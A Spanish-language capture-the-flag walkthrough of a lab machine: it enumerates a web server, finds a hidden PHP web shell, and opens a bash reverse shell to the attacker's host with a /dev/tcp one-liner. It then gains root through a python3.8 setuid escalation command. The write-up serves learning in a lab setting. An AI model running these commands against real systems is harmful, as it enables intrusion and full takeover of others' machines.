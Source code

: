 nmap: 22,80

![image](https://github.com/user-attachments/assets/fa1ec9f2-3652-4885-b2da-5f55617289e1)

entramos a la pagina y tenemos esto

![image](https://github.com/user-attachments/assets/c08b40e7-b159-485b-8b84-a1efb6d64a9d)

y en el código fuente esto:

![image](https://github.com/user-attachments/assets/fa52b375-21db-4e37-ba73-7f084d8819ad)

ahí muestra una "shell.php" y un "acces panel", hacemos un gobuster 

      gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x html,php,py,txt

vamos consiguiendo diferentes resultados

un backup.txt

![image](https://github.com/user-attachments/assets/cc37c0ec-1178-459b-9fb0-b2beaa6972cf)

un hidden

![image](https://github.com/user-attachments/assets/8c6d7b64-cdc8-41c0-811e-0958c74cf18f)

probamos el hidden con el shell.php que nos mostro el código fuente

![image](https://github.com/user-attachments/assets/5dd5347d-f21e-4cd5-8272-344c9ecb92a5)

pero no nos muestra nada, pero como es una shell.php vamos a probar si directorios extras comunes como un "?file" o "?cmd", de no ser así lanzamos este comando

     wfuzz -c -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt "http://172.17.0.2/hidden/.shell.php?FUZZ=id"

pero funciona con el "cmd"

![image](https://github.com/user-attachments/assets/50acadca-4f51-4466-b7f4-c1c2d14e4961)

así que podemos lanzar una bash y dejar el terminal en escucha

    bash -c 'bash -i>& /dev/tcp/172.17.0.1/443 0>&1'

tenemos esta pero no funciona así que la podemos URL encodear https://www.urlencoder.org/

y obtenemos la conexión

![image](https://github.com/user-attachments/assets/c74fd070-2629-4a38-ad66-f5671360fa6a)

ahora escalamos a root, encontramos esto

![image](https://github.com/user-attachments/assets/26c80f9d-01b1-48f3-8a1e-2c60e26806b9)

igual encontramos esto

![[cat1.png]]

python 3.8, así que podemos lanzar este comando para ser root

     python3.8 -c 'import os; os.setuid(0); os.system("/bin/bash")'

![[rooot.png]]

y somos root! 
